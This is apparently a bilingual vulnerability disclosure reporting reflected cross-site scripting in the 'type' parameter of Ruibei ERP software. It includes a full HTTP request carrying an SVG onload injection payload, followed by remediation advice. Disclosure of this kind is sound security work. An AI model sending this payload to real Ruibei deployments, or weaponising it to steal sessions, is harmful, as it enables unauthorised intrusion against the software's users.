

# XSS vulnerability exists in the ERP parameter type of Ruibei software

### 企业官网(Enterprise official website)：

https://www.rebee.cn/

### 危害描述(Vulnerability description)：

**XSS vulnerabilities** allow attackers to inject malicious scripts into web pages, stealing sensitive data, manipulating content, or performing unauthorized actions.

### 漏洞细节(Vulnerability details)：

```
GET /?action=gygg7&address=lxy59&callback=flmr4&enddate=tb1p6&height=mfxh2&ipad=nmpg7&isAndroid=v0170&json=um6r5&key=ot3b7&languageOption=jdsw6&m=wzvg9&mobilePhone=wsgf6&mod=ws828&page=i65b0&q=dkfv0&query=lifq6&s=jin37&src=kyvw0&type=type="><svg onload=alert('xss')>//&verificationCode=b8ye4 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip

```




### 修复建议(Repair suggestion)：

**Remediation suggestions** include strict input validation and output encoding, using Content Security Policy (CSP) to restrict script sources, and leveraging built-in security features of modern frameworks.

